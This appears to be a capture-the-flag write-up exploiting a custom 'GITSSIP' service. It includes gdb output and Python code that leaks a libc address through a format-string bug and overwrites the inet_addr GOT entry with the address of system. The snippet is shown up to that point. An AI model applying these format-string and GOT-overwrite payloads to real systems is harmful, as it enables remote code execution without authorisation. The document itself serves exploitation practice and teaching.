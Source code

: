 ```bash
Allow: x

GITSSIP/0.1 200 OK
GITSSIP/0.1 500 Malformed Header
```

```bash
Breakpoint 1, inet_addr (cp=0x7fff5ea65ce1 "wecancontrolit") at inet_addr.c:93
93	inet_addr.c: No such file or directory.
(gdb) x/s $rdi
0x7fff5ea65ce1:	"wecancontrolit"
```

Yeah, we got error 500, but the tricky thing is: **inet_addr** was called with 'wecancontrolit' string. So, we've chosen our victim (@system takes string through @rdi too).

####Let's write an exploit!
Firstly we need to leak the address of @__libc_start_main+245. Using the stack dump, we can calculate, that using 60th parameter of format string will give us desired address:
```python
import socket

s = socket.socket()
address = '127.0.0.1'
port = 5060
s.connect((address, port))

#leak @__libc_start_main+245 address
s.sendall('''REGISTER x GITSSIP/0.1
To: ''' + '%60$p' + '''
From: x
Expires: 0
Common Name: x
Contact: x

DIRECTORY * GITSSIP/0.1
Search: *
''')

time.sleep(0.2)

systemAddr = s.recv(1024)
systemAddr = int(systemAddr[systemAddr.find('0x') : systemAddr.find('0x') + 14], 16) - 0x22fc95
print('@system at ' + hex(systemAddr))
```
Here we use **Direct Parameter Access** feature of format strings. We command to show the 60th parameter lying on stack as a pointer.

Mmkay, let's rewrite the got.plt entry:
```python
inet_addr = 0x6130A8 #should be static on all systems I suppose
u64 = lambda x: struct.pack("<Q", x)
def writeByte(addr, byte):
	s.sendall('''REGISTER x GITSSIP/0.1
	To: '''.replace('\t', '') + '%%%du%%9$hhn' % (0xe9+ord(byte)) + '''
	From: x
	Expires: 0
	Common Name: xxxxxxx'''.replace('\t', '') + u64(addr) + '''
	Contact: x

	DIRECTORY * GITSSIP/0.1
	Search: *
	'''.replace('\t', ''))
	
for off, byte in enumerate(u64(systemAddr)):
	writeByte(inet_addr + off, byte)
```